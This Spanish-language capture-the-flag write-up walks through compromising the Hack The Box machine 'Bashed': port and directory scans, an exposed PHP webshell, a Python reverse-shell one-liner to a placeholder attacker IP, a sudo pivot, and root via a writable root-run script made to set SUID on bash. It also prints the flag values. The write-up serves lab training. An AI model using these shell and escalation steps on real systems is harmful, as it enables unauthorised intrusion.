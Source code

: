 ```yaml
---
layout: post
title: Bashed
subtitle: Plataforma HTB Dificultad Fácil
cover-img: /assets/img/bashedpeq.png
thumbnail-img: /assets/img/bashedpeq.png
share-img: /assets/img/Bashed.png
author: Elmili72
---
```

![Bashed](https://github.com/user-attachments/assets/56fc9159-9806-44ea-91e5-1c53e0764142)

## 1. Escaneo general de puertos

Primero hacemos un ping para ver si tenemos conexión con la máquina y que sistema operativo utiliza:
```bash
$ ping -c 1 10.10.10.68                               
PING 10.10.10.68 (10.10.10.68) 56(84) bytes of data.
64 bytes from 10.10.10.68: icmp_seq=1 ttl=63 time=125 ms

--- 10.10.10.68 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 124.645/124.645/124.645/0.000 ms
```

Después de comprobar que tenemos conexión con el equipo realizamos el escaneo general.

```bash
$ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 10.10.10.68 -oG allports 
[sudo] contraseña para elmili: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 02:04 CEST
Initiating SYN Stealth Scan at 02:04
Scanning 10.10.10.68 [65535 ports]
Discovered open port 80/tcp on 10.10.10.68
Completed SYN Stealth Scan at 02:04, 18.16s elapsed (65535 total ports)
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.12s latency).
Scanned at 2025-04-14 02:04:21 CEST for 18s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
```

## 2. Escaneo específico de los puertos encontrados

Tras descubrir los puertos abiertos hacemos un escaneo específico al puerto 80 (HTTP), para conocer las versiones y los servicios que corren en el puerto.

```bash
$ nmap -sCV -p80 10.10.10.68 -oN escaneo                              
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-14 02:05 CEST
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.11 seconds
```

## 3. Reconocimiento del sitio web (HTTP)

Vemos un blog que habla del desarrollo de una webshell hecha con php para pentesting. Y de hecho encontramos un link a github de como está montada.

![Pasted image 20250414020652](https://github.com/user-attachments/assets/cafc4848-7ed6-4c20-a7ed-50319e792dac)

![Pasted image 20250414020716](https://github.com/user-attachments/assets/eace1ce3-eb0e-49a9-b71c-2076196da6d1)

## 4. Escaneo de directorios

Realizamos un escaneo de subdirectorios por si pudiera haber algo interesante subido (como por ejemplo el proyecto de github :D).

```bash
$ gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/about.html           (Status: 200) [Size: 8193]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/contact.html         (Status: 200) [Size: 7805]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/single.html          (Status: 200) [Size: 7477]
/scroll.html          (Status: 200) [Size: 10863]
```

Y efectivamente vemos algún subdirectorio interesante como "/dev" en el que encontramos efectivamente la webshell de nuestro amigo Arrexel.

![Pasted image 20250414021112](https://github.com/user-attachments/assets/ca014ffe-435b-4bc1-a9a4-6572acec8902)

![Pasted image 20250414021149](https://github.com/user-attachments/assets/6e113b3f-1d80-4be3-9c55-dd41dcec4045)

## 5. Intrusión

Una vez tenemos la webshell funcional podemos lanzarnos una shell a nosotros mismos para ganar acceso al equipo y poder pivotar entre los usuarios que haya.

```bash
# En una terminal
nc -lnvp <puerto_atacante>
```

```bash
# En la webshell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_atacante>",<puerto_atacante>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Vemos dos directorios, en el directorio "arrexel" tenemos permisos de lectura y en el tenemos el archivito de la flag "users.txt". Primera parte hecha.

```bash
www-data@bashed:/home$ ls
arrexel  scriptmanager
```

```bash
www-data@bashed:/home$ cd arrexel/
www-data@bashed:/home/arrexel$ ls
user.txt
www-data@bashed:/home/arrexel$ cat user.txt
{a14ff9b051a66fc4e430bb948a95f494}
```

## 6. Pivoting

Ahora para realizar el pivoting realizamos un típico sudo -l y vemos que podemos "generar" una bash del usuario scriptmanager simplemente desde el usuario "www-data" .

```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

![Pasted image 20250414021942](https://github.com/user-attachments/assets/a3d9cba3-e7c8-45eb-9cfe-5717dad6908c)

## 7. Escalada de privilegios

Una vez somos el usuario "scriptmanager" buscamos posibles archivos con permisos SUID que nos permitan hacer la escalada. Pero nada.

```bash
scriptmanager@bashed:/home/arrexel$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/fusermount
/bin/su
/bin/umount
/bin/ping6
/bin/ntfs-3g
/bin/ping
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

Buscando un poco he visto que hay un programa de python ejecutandose desde el usuario root, pero en el que tenemos permisos de escritura con el usuario "scriptmanager", el archivo "test.py".

![Pasted image 20250414022155](https://github.com/user-attachments/assets/384b21ac-7ec5-4455-a647-6e05fb06ee6c)

![Pasted image 20250414022211](https://github.com/user-attachments/assets/31b18402-c388-44ea-9933-70d3c33f156a)
![Pasted image 20250414022226](https://github.com/user-attachments/assets/fc9c1294-5d98-4731-9be6-807c65b097e4)

Pues cogemos este archivo y lo modificamos de la siguiente manera para otorgarle permisos SUID a "/bin/bash" y poder generar una bash con privilegios sin problema.

![Pasted image 20250414022337](https://github.com/user-attachments/assets/17183db7-bfb9-4867-ac85-98134bd53d9b)

![Pasted image 20250414022409](https://github.com/user-attachments/assets/e3971c76-8dfc-4e49-8642-b34088ea507e)

Y ya tendríamos nuestra flag.

```bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
{5c47a895a691a110783393957339f985}
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
